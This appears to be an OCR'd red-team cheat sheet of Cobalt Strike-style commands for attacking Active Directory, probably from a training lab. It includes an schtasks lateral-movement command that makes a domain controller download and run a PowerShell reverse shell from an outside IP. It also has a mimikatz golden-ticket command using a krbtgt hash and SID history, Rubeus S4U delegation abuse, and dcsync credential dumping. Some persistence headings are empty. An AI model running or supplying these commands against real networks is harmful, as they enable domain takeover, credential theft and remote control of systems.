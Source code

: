 
# SCHTASKS LATERAL MOVEMENT
shell schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR
"powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.1:8080/Invoke-PowerShellTcp.ps1''')'"
shell schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"


# SERVICES LATERAL MOVEMENT



# BURNING DOWN THE FOREST - GOING FROM CHILD TO PARENT DOMAIN THROUGH SID HISTORY
mimikatz kerberos::golden 
/user:administrator 
/domain:child.parent.com 
/sid:S-1-5-21-141678993-394318334-2645530166 
/krbtgt:9404def404bc173829830a3483869e78 /sids:S-1-5-21-12346317506-3509444512-4230741538-519 
/ptt
/startoffset:0
/endin:600
/renewmax:10080



# S4U ABUSE WITH RUBEUS|UNCONSTRAINED AND CONSTRAINED DELEGATION ABUSE
shell klist
kerberos_ticket_purge
dcsync parent.com parent\Administrator
execute-assembly /home/USER/rubeus.exe s4u /user:computer01$ /domain:aprent.com /rc4:<computer02$_ntlm_hash> /impersonateuser:administrator /msdsspn:"cifs/dc04.client.offshore.com" /altservice:ldap /ptt
dcsync parent.com parent\Administrator



===============================================
PERSISTENCE
===============================================

# IN-MEMORY TRIGGERABLE PERSISTENCE WITH SMB NAMED PIPES

# REGISTRY RUN KEYS

# SERVICES
